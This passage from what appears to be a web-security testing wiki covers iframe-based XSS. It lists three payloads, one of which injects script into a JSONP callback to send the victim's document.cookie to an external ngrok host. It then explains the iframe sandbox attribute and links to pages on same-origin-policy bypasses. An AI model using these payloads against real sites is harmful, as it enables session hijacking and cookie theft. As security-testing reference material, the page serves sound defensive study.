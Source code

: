 ### Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### Iframe sandbox

The `sandbox` attribute enables an extra set of restrictions for the content in the iframe. **By default, no restriction is applied.**

When the `sandbox` attribute is present, and it will:

* treat the content as being from a unique origin
* block form submission
* block script execution
* disable APIs
* prevent links from targeting other browsing contexts
* prevent content from using plugins (through `<embed>`, `<object>`, `<applet>`, or other)
* prevent the content to navigate its top-level browsing context
* block automatically triggered features (such as automatically playing a video or automatically focusing a form control)

The value of the `sandbox` attribute can either be empty (then all restrictions are applied), or a space-separated list of pre-defined values that will REMOVE the particular restrictions.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

## Iframes in SOP

Check the following pages:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}
